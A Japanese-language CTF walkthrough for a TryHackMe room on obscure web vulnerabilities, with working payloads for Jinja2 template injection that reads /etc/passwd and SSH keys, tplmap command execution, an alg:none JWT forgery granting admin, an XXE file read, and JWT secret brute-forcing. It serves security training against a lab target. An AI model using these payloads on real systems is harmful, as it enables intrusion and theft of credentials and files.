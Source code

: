 # ZTH: Obscure Web Vulns WriteUp
https://tryhackme.com/room/zthobscurewebvulns

## Section 1 - SSTI
## Task 4
### #1
/etc/passwdを開く。
```
{{config.__class__.__init__.__globals__['os'].popen(/etc/passwd).read()}}
```

### #2
指定されたユーザのid_rsaが置かれているだろうパスを指定する。
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/home/test/.ssh/id_rsa).read()}}
```

## Task 5
### #1
これで正解になったが、実際は`cat /etc/passwd`を`'`などで囲わないとダメな気がする。
```
tplmap -u http://10.10.10.10:5000/ -d 'noot' --os-cmd cat /etc/passwd
```


## Task 6
### #1

画面から`{2*2}`を送信した際のメソッドとパラメータ名を確認する。
```http
POST http://10.10.121.190/ HTTP/1.1
Host: 10.10.121.190
Connection: keep-alive
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.121.190
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.121.190/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8,ko;q=0.7

name=%7B2%2B2%7D
```

POSTリクエストなので`-d`オプションでパラメータ名`name`を指定する。
```shell
[root@kali]# git clone https://github.com/epinna/tplmap
[root@kali]# cd tplmap/
[root@kali]# ./tplmap.py -u http://10.10.121.190/ -d 'name' --os-cmd 'head /flag'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux2
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

❓❓❓❓
```

## Section 2 - XSRF
## Task 9
### #1
PoC作成に必要なパラメータは`--malicious`。

https://github.com/0xInfection/XSRFProbe/wiki/General-Usage#generating-malicious-poc-forms

## Section 3 - JWT
## Task 18
### #1
1回ログインに失敗すると、テスト用のIDとパスワードが画面に表示される。

ログインしてみると、`token`という名のCookieにJWTがセットされる。
```http
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjAzMTk4OTcwODk3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS84Ni4wLjQyNDAuNzUgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjAzMTk4OTcxfQ.BH1pgSMi_9nJg_ArJCei3x__aG-Pl7EFjAeekpnHBrk; path=/; httponly
```

Base64デコードする。

Header
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

Payload
```json
{
  "auth": 1603198970897,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36",
  "role": "user",
  "iat": 1603198971
}
```

`alg`が`none`のHeaderを作成し、Base64エンコードする。
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
```

Payloadの`role`を`admin`に差し替えてBase64エンコードする。
```
eyJhdXRoIjoxNjAzMTk4OTcwODk3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS84Ni4wLjQyNDAuNzUgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwMzE5ODk3MX0
```

HeaderとPayloadをつなぎ、Signatureは削除する。  

PayloadとSignatureの間を示す`.`は残す必要がある。
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjAzMTk4OTcwODk3LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS84Ni4wLjQyNDAuNzUgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwMzE5ODk3MX0.
```

Cookieの値を上記に差し替え、/privateにGETアクセスすると、画面にflagが表示される。

## Section 4 - XXE
## Task 22
### #1 & #2
設問はユーザ数と、特定のUIDのユーザ名なので、passwdを取得できればよい。

フォームに入力してボタンを押すと、XMLボディでリクエストされる。
```xml
<?xml version="1.0" encoding="UTF-8"?><root><name>user</name><tel>0</tel><email>0@example.com</email><password>password</password></root>
```

XXEにより/etc/passwdを取得するシグネチャに書き換えて実行することで取得できる。
```xml
<?xml version="1.0" encoding="UTF-8"?>  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY pw SYSTEM "file:///etc/passwd" >]>
<root><name>user</name><tel>0</tel><email>&pw;</email><password>password</password></root>
```


## Bonus Section - Challenge
## Task 25
### #1 
JWTをブルートフォースし、secretを特定する。  
**JWT-Cracker**  
https://github.com/lmammino/jwt-cracker

引数は与えられたJWT、使われていそうな文字、調べる最大桁数。  
```shell
[root@kali]# npm install --global jwt-cracker
/usr/local/bin/jwt-cracker -> /usr/local/lib/node_modules/jwt-cracker/index.js
+ jwt-cracker@1.0.6
added 7 packages from 4 contributors in 2.1s
[root@kali]# jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.it4Lj1WEPkrhRo9a2-XHMGtYburgHbdS5s7Iuc1YKOE" "abcdefghijklmnopqrstuvwxyz01234567890" 4
Attempts: 100000
Attempts: 200000
Attempts: 300000
Attempts: 400000
Attempts: 500000
Attempts: 600000
Attempts: 700000
Attempts: 800000
Attempts: 900000
SECRET FOUND: ❓❓❓❓
Time taken (sec): 11.437
Attempts: 988471
```
